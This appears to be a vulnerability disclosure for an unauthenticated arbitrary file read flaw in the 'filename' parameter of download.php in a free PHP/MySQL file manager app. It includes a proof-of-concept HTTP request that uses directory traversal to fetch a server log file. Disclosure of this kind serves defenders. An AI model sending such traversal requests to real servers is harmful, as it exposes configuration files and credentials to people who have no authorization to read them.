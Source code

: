 # Simple File Manager Web App using PHP and MySQL Database Free Source Code - Arbitrary file read vulnerability
+ Author: xuanluansec
# Vendor Homepage
+ https://www.sourcecodester.com/upload-download-and-delete-file-using-php-mysql.html
# Software Link
+ https://www.sourcecodester.com/sites/default/files/download/oretnom23/myfilemgr.zip
# Overview
+ xuanluansec has discovered a vulnerability classified as critical in Simple File Manager Web App using PHP and MySQL Database Free Source Code V1.0. Any file read. This operation will result in unrestricted file reading. Can read sensitive files and database configuration files.
# Vulnerability Details
+ Simple File Manager Web App using PHP and MySQL Database Free Source Code V1.0
+ Vulnerable File: download.php
+ Parameter Names: filename
+ Attack Type: Remote
# Description
+ xuanluansec has discovered a vulnerability classified as critical in Simple File Manager Web App using PHP and MySQL Database Free Source Code V1.0. Any file read. This operation will result in unrestricted file reading. Can read sensitive files and database configuration files.
# Note
+ No need to log in to the website.

# Proof of Concept (PoC) : 

```
GET /download.php?filename=../../../nginx/logs/access.log HTTP/1.1
Host: www.myfilemgr.com:8092
Accept-Encoding: gzip, deflate
Safari/533.20.27
Connection: close


```

![1](https://github.com/xuanluansec/vul/blob/main/vul/img/20.png)
